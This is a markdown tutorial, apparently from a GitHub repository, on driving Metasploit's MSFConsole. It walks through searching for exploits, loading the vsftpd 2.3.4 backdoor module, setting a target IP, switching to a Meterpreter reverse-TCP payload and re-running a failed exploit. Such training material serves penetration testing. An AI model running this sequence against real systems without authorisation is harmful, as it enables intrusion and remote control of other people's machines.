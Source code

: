 # Metasploit - MSFConsole Guide

## 🔹 Introduction
Metasploit is a powerful **penetration testing framework** that provides a variety of exploits, payloads, and auxiliary tools for security assessments. The **MSFConsole** is the main command-line interface for interacting with Metasploit.

---

## 🔹 Finding Exploits
Before using Metasploit, you can search for available exploits using **SearchSploit** or within **MSFConsole**.

### **Using SearchSploit (Offline Exploit Database)**
```bash
searchsploit <query>
```
- Looks up exploits from **Exploit-DB**.
- Example:
  ```bash
  searchsploit Apache 2.4
  ```

### **Using MSFConsole to Search for Exploits**
```bash
msfconsole
search <query>
```
- Example:
  ```bash
  search vsftpd
  ```
- This will return all matching **exploits, auxiliary modules, and payloads**.

---

## 🔹 Using an Exploit
Once an exploit is found, load it into the console.

### **Select an Exploit**
```bash
use <exploit_name>
```
- Example:
  ```bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```

### **Checking Available Options**
```bash
options
```
- Displays required parameters (e.g., **RHOSTS**, **LPORT**, **PAYLOAD**).

---

## 🔹 Setting Target & Payload
### **Set the Target IP Address**
```bash
set RHOSTS <target_ip>
```
- Example:
  ```bash
  set RHOSTS 192.168.1.100
  ```

### **Confirm Current Options**
```bash
options
```
- Verify if required parameters are properly configured.

### **Check Available Targets**
```bash
show targets
```
- Lists **supported OS and versions** for the exploit.

### **Run the Exploit**
```bash
run
```
- Attempts to execute the exploit on the target system.

---

## 🔹 Troubleshooting: If the Exploit Fails
Sometimes, an exploit may fail or **crash unexpectedly**. Try the following steps:

1. **Check Available Options Again**
   ```bash
   options
   ```
   - This may display **additional parameters** required.

2. **Change the Payload**
   ```bash
   set payload <query>
   ```
   - Example:
     ```bash
     set payload linux/x86/meterpreter/reverse_tcp
     ```

3. **Confirm Payload Works**
   ```bash
   options
   ```
   - Ensure the **new payload** settings are applied correctly.

4. **Run the Exploit Again**
   ```bash
   run
   ```

---

## 🔹 Conclusion
Metasploit is an essential tool for penetration testing, and **understanding how to search, configure, and troubleshoot exploits** is key. If an exploit fails, **experiment with different payloads and configurations** to improve success rates.

